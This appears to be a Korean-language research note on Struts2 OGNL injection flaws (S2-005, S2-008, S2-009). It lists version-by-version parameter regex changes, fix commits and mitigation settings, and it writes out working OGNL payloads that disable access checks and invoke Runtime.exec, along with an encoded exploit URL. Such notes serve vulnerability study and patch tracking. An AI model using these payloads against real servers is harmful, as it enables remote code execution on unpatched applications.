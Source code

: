 https://github.com/kantega/notsoserial

== Struts2

참고 : OGNL 명세 www.ognl.org/2.6.9/Documentation/html/LanguageGuide/expressionEvaluation.html  

2.1.8 (2009/09/30)  : "[[\\p{Graph}\\s]&&[^,#:=]]*"  
2.2.1 (2010/08/16) :   "[a-zA-Z0-9\\.\\]\\[\\(\\)_'\\s]+"  
2.3.1.1 (2011/12/25)  : "[a-zA-Z0-9\\.\\]\\[\\(\\)_']+"  
2.3.1.2  (2012/01/22) :  "\\w+((\\.\\w+)|(\\[\\d+\\])|(\\(\\d+\\))|(\\['\\w+'\\])|(\\('\\w+'\\)))*";  

=== s2-005, CVE-2010-1870
http://struts.apache.org/development/2.x/docs/s2-005.html  

*   2010년 5월31일날 보고. :http://securityreason.com/exploitalert/8435[http://securityreason.com/exploitalert/8435]
*   2010년 6월 20일날 소스 고침: http://svn.apache.org/viewvc?view=revision&revision=956389[http://svn.apache.org/viewvc?view=revision&revision=956389]
*   2010년 8월16일에 release된 2.2.1에 포함 : http://struts.apache.org/2.2.1/docs/version-notes-221.html[http://struts.apache.org/2.2.1/docs/version-notes-221.html]

http://blog.o0o.nu/2010/07/cve-2010-1870-struts2xwork-remote.html 참고  

#_memberAccess['allowStaticMethodAccess'] = true#foo = new java .lang.Boolean("false")#context['xwork.MethodAccessor.denyMethodExecution'] = #foo#rt = @java.lang.Runtime@getRuntime()#rt.exec('mkdir /tmp/PWNED')  

http://mydomain/MyStruts.action?('\u0023_memberAccess[\'allowStaticMethodAccess\']')(meh)=true&(aaa)(('\u0023context[\'xwork.MethodAccessor.den  
yMethodExecution\']\u003d\u0023foo')(\u0023foo\u003dnew%20java.lang.Boolean("false")))&(asdf)(('\u0023rt.exit(1)')(\u0023rt\u003d@java.lang.Runtime@getRuntime()))=1  

\u0023 = '#'  

==== 관련 Commit

2010/ 6/20  
https://github.com/apache/struts2/commit/0c367776762b25c567b415ac4c2b0e48042cf34f  
https://github.com/apache/struts2/commit/3008f2609e59c9aba7ead68c7be6fdcb075520f6  

http://sebug.net/exploit/19954/[]

=== s2-008  

http://struts.apache.org/development/2.x/docs/s2-008.html

http://www.brucephillips.name/blog/index.cfm/2011/2/19/Struts-2-Security-Vulnerability--Dynamic-Method-Invocation 참고  

<constant name="struts.enable.DynamicMethodInvocation" value="false" />   
struts.enable.DynamicMethodInvocation = false  

Strict DMI mode  

==== 관련 commit

2012/12/24 : https://github.com/apache/struts2/commit/41f90ae39d0783f64641726e7e6b4741663c04bd  

=== s2-009 , CVE-2011-3923

http://struts.apache.org/development/2.x/docs/s2-009.html  

http://packetstormsecurity.com/files/cve/CVE-2011-3923  

'While investigating SEC Consult's Struts2 bugs (cool bugs, btw!), I've realized that due to the fact that Struts2 still allowed OGNL expression evaluation via parentheses I could evaluate OGNL expressions stored in action attributes (HTTP parameter values effectively), resulting in arbitrary code execution in Struts2 applications with default configuration (i.e. using the "params" interceptor), very similar to  CVE-2010-1870..  

http://blog.o0o.nu/2012/01/cve-2011-3923-yet-another-struts2.html  

공격 코드는 : http://www.securityfocus.com/bid/55165/exploit , http://packetstormsecurity.com/files/120908/struts_code_exec_parameters.rb.txt  
관련포럼: http://seclists.org/bugtraq/2012/Aug/135  

==== 관련 commit
2012/01/19 :  https://github.com/apache/struts2/commit/2c1eb6bb57f90db7287fc3ed0086793d0a43fe9e  
 
